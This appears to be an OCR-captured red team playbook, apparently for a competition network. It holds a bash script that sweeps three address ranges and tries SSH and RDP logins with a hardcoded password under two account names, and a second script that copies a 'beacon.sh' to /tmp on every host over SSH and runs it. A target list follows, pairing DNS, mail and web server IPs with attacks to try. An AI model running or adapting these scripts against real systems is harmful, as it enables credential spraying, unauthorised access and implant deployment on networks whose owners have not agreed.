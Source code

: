 ### **Red Team Account Access:**
```bash
#!/bin/bash
# red_team_access.sh
for team in "4" "6" "8"; do
  for ip in $(seq 1 254); do
    echo "Testing red team accounts on 100.80.$team.$ip..."
    
    # SSH with red team accounts
    sshpass -p 'P@55w0rd1!' ssh -o ConnectTimeout=5 icanhasaccess@100.80.$team.$ip
    sshpass -p 'P@55w0rd1!' ssh -o ConnectTimeout=5 goldteamscoring@100.80.$team.$ip
    
    # RDP with red team accounts
    xfreerdp /v:100.80.$team.$ip /u:icanhasaccess /p:P@55w0rd1!
    xfreerdp /v:100.80.$team.$ip /u:goldteamscoring /p:P@55w0rd1!
  done
done
```

### **Beacon Deployment:**
```bash
#!/bin/bash
# deploy_beacon.sh
for team in "4" "6" "8"; do
  for ip in $(seq 1 254); do
    echo "Deploying beacon to 100.80.$team.$ip..."
    
    # Upload beacon via SSH
    scp beacon.sh icanhasaccess@100.80.$team.$ip:/tmp/
    ssh icanhasaccess@100.80.$team.$ip "chmod +x /tmp/beacon.sh && /tmp/beacon.sh"
    
    # Upload beacon via RDP
    # Use psexec or similar for Windows
  done
done
```

## 📊 **Target Priority Matrix**

### **High Priority Targets:**
1. **DNS Servers** (`100.80.4.132`, `100.80.6.132`, `100.80.8.132`)
   - Zone transfer attempts
   - DNS cache poisoning
   - DNS amplification

2. **Mail Servers** (`100.80.4.15`, `100.80.6.15`, `100.80.8.15`)
   - Open relay testing
   - User enumeration
   - Mail injection

3. **Web Servers** (`100.80.4.164`, `100.80.6.164`, `100.80.8.164`)
   - WordPress vulnerabilities
   - Directory traversal
   - SQL injection
